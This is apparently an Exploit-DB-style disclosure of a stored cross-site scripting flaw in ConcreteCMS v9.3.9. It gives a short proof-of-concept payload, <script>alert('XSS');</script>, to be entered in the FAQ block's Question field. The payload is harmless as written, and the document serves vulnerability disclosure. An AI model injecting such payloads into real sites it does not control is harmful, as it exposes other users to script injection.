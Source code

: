 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/10/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Question field when adding a FAQ block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('XSS');</script>
```

While editing the FAQ, add <script>alert('XSS');</script> to the question field and then click add question,the xss vulnerability appears.

